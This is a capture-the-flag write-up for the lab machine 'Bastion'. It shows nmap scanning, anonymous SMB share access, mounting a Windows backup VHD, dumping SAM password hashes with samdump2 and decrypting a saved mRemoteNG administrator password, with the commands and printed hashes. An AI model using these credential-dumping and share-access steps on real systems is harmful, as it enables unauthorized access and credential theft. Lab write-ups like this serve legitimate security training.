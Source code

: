 <img src="Machines/Bastion/Images/1.PNG">
##Intro 
Target: 10.10.10.134

It's a easy box and I will be using kali linux for solving this.
##Steps
####1. Info Gathering
First, Run a nmap scan to see open ports and services.
```
root@kali:~/CTF# nmap -sC -sV 10.10.10.134
```
And here are the results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-08 08:56 EDT
Nmap scan report for 10.10.10.134
Host is up (0.29s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m21s, deviation: 1h09m15s, median: 37s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-08T14:57:33+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-08T12:57:34
|_  start_date: 2019-09-08T11:52:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.28 seconds
```
From the open ports, It can be known that the box is a windows machine and we can see its servies. So lets jump right into the fun part. 

####2. Exploitation
There seem to nothing special.Let's try smb service for the port 445. For mb service exploitation in kali, we use smbmap, smbclient, enum4linux, etc.

Lets try smbclient:
```
smbclient -L 10.10.10.134
```
<img src="Machines/Bastion/Images/2.PNG">

With this tool we can see smb shares of this box without any password. Try accessing some shares by 
```smbclient -L //10.10.10.134/**insert sharename here**```. In this case, you can acces **Backups** :
```
root@kali:~/CTF# smbclient //10.10.10.134/Backups

```
<img src="Machines/Bastion/Images/3.PNG">

Voila! We got a shell now.So lets see what we have in here. Now lets see what twe got in there.

4
Content of note.txt:
```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Now let's mount that backup folder.

```
mount -t cifs //10.10.10.134/Backups -o user=guest,password= mnt/backups
````
And we will see around what it has

```
root@kali:~/CTF/bastion/mnt/Backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
BackupSpecs.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
```
Now lets mount the VHD. VHD - Virtual Hard Drive 
```
guestmount --add /mnt/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
Now lets see whats around there

```
root@kali:CTF/bastion/mnt/vhd# ls -la           
total 2096745
drwxrwxrwx 1 root root      12288 Feb 22  2019  .
drwxr-xr-x 4 root root       4096 Sep  6 15:25  ..
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 11  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 11  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /mnt/vhd/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 14  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 12  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
```
As I could not find user.txt. So we do this now:
```
root@kali:~CTF/bastion/mnt/vhd# samdump2 ./SYSTEM ./SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Now lets Drop that sweet hash ```26112010952d963c8dc4217daec986d9``` in hashcat or you can use some online tools to identify and decrypt the hash. I recommend using hashes.org.And we get the password for the user L4mpje-PC,Now lets login as that particular user in ssh. 
#### 3. Getiing user flag
Fire up the terminal and using ssh login as L4mpje. So the sweet terminal is working and it's a childs play to get the hash so yeah.

Now let's proceed to privillege escalation **My favourite part**

#### 4. Privillege Escalation
After screwing around and raging, I found a intresting program installed by that particular user on appdata 'mRemoteNG'.So, after checking that out I found a confCons.xml and looked whats in it and voila I found the Administrator creds!! Lets drop that hash in a tool that some one has put it out for us. <a href="https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py"> mremoteng-decrypt </a>

```
java -jar decipher_mremoteng.jar "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
```
Now we go the admin creds, Lets login and get the flag. See its 
# **Easy peasy**

